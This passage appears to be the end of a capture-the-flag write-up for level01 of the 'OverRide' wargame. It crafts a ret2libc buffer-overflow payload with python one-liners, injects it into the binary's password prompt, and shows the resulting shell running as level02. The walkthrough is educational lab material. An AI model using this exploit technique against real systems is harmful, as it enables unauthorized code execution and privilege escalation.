### `/bin/sh` : `0xf7f897ec` (`\xec\x97\xf8\xf7` for the little-endian)

## 5. Craft the payload

Remind the [level02 of _Rainfall_](https://github.com/Nimpoo/rainfall/tree/main/level2) for the `Ret2Libc` attack.

```sh
pyhton -c 'print <offset> + <system> + <exit> + <"/bin/sh">'
```

There is here no protections at all for calling a function directly from the `libc`, so we can directly pass the payload to the binary :

```sh
python -c 'print "A" * 80 + "\xd0\xae\xe6\xf7" + "\x70\xeb\xe5\xf7" + "\xec\x97\xf8\xf7"'
```

> Because of it's the second prompt where we have to put our payload, we can print `dat_wil` with `python` and adding a newline character `\n` at the end of `dat_wil` THEN add the payload as a second argument. And the `exit` is optionnal, 4 randoms bytes will be added instead. AND DON'T FORGET THE `cat` TO KEEP THE SHELL OPEN !

```sh
level01@OverRide:~$ (python -c 'print "dat_wil\n" + "A" * 80 + "\xd0\xae\xe6\xf7" + "\x70\xeb\xe5\xf7" + "\xec\x97\xf8\xf7"'; cat) | ./level01
********* ADMIN LOGIN PROMPT *********
Enter Username: verifying username....

Enter Password:
nope, incorrect password...

whoami
level02

```

# EASY

Let's get the flag and go to the next level :

```sh
level01@OverRide:~$ su level02
Password:
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/users/level02/level02
level02@OverRide:~$ 
```

# level01 complet !